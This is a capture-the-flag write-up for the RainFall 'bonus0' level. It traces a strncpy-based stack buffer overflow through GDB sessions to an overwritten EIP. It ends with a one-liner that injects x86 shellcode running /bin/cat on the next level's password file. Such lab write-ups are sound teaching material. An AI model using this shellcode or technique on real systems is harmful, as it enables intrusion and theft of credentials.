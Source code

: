 # bonus0

Aka buffer overflow with extra steps.

We have 3 functions:
- `p` takes two arguments, prints the second one with a newline, and reads 4096 characters on `stdin`. It then replaces the newline with a null byte, and calls `strncpy` to copy the 20 first characters to the first parameter.
- `pp` calls p on its two 20 bytes stack buffers and then concatenates both in the buffer it took as argument.
- `main` has a 55 bytes buffer on the stack, which it gives when calling `pp`. It then prints the buffer with a newline.

The first safety issue we can see is that `pp` gives to `p` 20 byte buffers, so `p` might overwrite the null byte.

Since both buffers are adjacent on the stack, if we write 20 characters in the first buffer, we will see that the first buffer "contains" the second one:

```bash
bonus0@RainFall:~$ ./bonus0 
 - 
01234567890123456789
 - 
WOW
01234567890123456789WOW WOW
```

Now, if we input 20 or more characters in both buffers, the 54 bytes buffer in main will be overflown as it will have more than 60 bytes written in (2 * 20 for buffer 1 + 20 for buffer 2 + whatever is after buffer 2 in memory).

```bash
bonus0@RainFall:~$ ./bonus0 
 - 
01234567890123456789
 - 
WOW
01234567890123456789WOW WOW
bonus0@RainFall:~$ ./bonus0 
 - 
01234567890123456789
 - 
ABCDEFGHIJKLMNOPQRSTUVWXYZ
01234567890123456789ABCDEFGHIJKLMNOPQRST��� ABCDEFGHIJKLMNOPQRST���
Segmentation fault (core dumped)
```

The program segfaults because the `EIP` value in main's stack is overwritten. That's interesting!

```gdb
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
01234567890123456789
 - 
ABCDEFGHIJKLMNOPQRSTUVWXYZ
01234567890123456789ABCDEFGHIJKLMNOPQRST��� ABCDEFGHIJKLMNOPQRST���

Program received signal SIGSEGV, Segmentation fault.
0x4d4c4b4a in ?? ()
```

The bytes `4d4c4b4a` correspond to `MLKJ`, so we know where to put the address we want to overwrite `EIP` with.

We can now store our shellcode in the huge buffer in `p`, as it will not be overwritten. We get the address like so:

```gdb
(gdb) b * 0x080484e1
Breakpoint 1 at 0x80484e1
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 

Breakpoint 1, 0x080484e1 in p ()
(gdb) x/x $eax+20
0xbfffe684:	0x00
```

We'll put our shellcode just after the 20 first characters at 0xbfffe684.

One small note, since GDB calls the process with the absolute path as `argv[0]`, we'll need to do the same in order the have the stack in the same state.

Now we have all the info needed for our exploit!

```bash
python -c 'print "a"*4095 + "\n" + "z"*9 + "\xbf\xff\xe6\x84"[::-1] + "z"*7 + "\x31\xd2\x31\xc0\x52\x68pass\x681//.\x68onus\x68er/b\x68e/us\x68/hom\x89\xe1\x50\x68/cat\x68/bin\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80"' | /home/user/bonus0/bonus0
```
